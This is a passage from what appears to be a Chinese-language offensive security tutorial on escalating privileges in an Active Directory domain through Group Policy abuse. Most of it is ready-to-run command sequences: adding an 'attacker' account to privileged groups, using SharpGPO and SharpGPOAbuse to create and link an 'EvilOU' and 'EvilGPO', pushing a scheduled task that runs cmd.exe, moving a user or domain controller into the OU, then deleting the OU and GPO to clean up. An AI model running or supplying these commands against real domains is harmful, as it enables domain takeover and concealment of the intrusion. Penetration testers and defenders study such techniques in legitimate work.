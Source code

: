 命令：

  

  *   *   *   *   *   *   * 

    
    
    net group "Exchange Trusted Subsystem" attacker /add /domain //将指定用户加的高权限组net group "Group Policy Creator Owners" attacker /add /domain  //将指定用户加的高权限组SharpGPO.exe --Action NewOU --OUName "EvilOU" //新建OUSharpGPO.exe --Action NewGPO --GPOName "EvilGPO" //新建GPOSharpGPO.exe --Action NewGPLink --DN "OU=EvilOU,DC=xx,DC=xx" --GPOName "EvilGPO" //OU与GPO进行链接SharpGPOAbuse.exe --AddUserTask --TaskName "PocCalc" --Author attch --Command "cmd.exe" --Argument "/c calc.exe" --GPOName //给GPO添加任务SharpGPO.exe --Action MoveObject --SrcDC "CN=XXX,CN=users,DC=xx,DC=xx" --DstDN "OU=EvilOU,DC=xx,DC=xx" //将指定用户移动到新建的OU中

  

域提权

  

原理跟上面类似，只是把用户改成了机器

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210815133423.png)

  

工具：

  

https://github.com/Dliv3/SharpGPO

https://github.com/FSecureLABS/SharpGPOAbuse

  

命令：

  

  *   *   *   *   *   *   * 

    
    
    net group "Exchange Trusted Subsystem" attacker /add /domain //将指定用户加的高权限组net group "Group Policy Creator Owners" attacker /add /domain  //将指定用户加的高权限组SharpGPO.exe --Action NewOU --OUName "EvilOU" //新建OUSharpGPO.exe --Action NewGPO --GPOName "EvilGPO" //新建GPOSharpGPO.exe --Action NewGPLink --DN "OU=EvilOU,DC=xx,DC=xx" --GPOName "EvilGPO" //OU与GPO进行链接SharpGPOAbuse.exe --AddUserTask --TaskName "PocCalc" --Author attch --Command "cmd.exe" --Argument "/c calc.exe" --GPONameSharpGPO.exe --Action MoveObject --SrcDC "CN=XXX,OU=Domain Controllers,DC=xx,DC=xx" --DstDN "OU=EvilOU,DC=xx,DC=xx" //将指定机器移动到新建的OU中

  

最后移除新建的OU、GPO

  

  *   * 

    
    
    SharpGPO.exe --Action RemoveOU --OUName "EvilOU" //移除OUSharpGPO.exe --Action RemoveGPO --GPOName "EvilGPO" //移除GPO
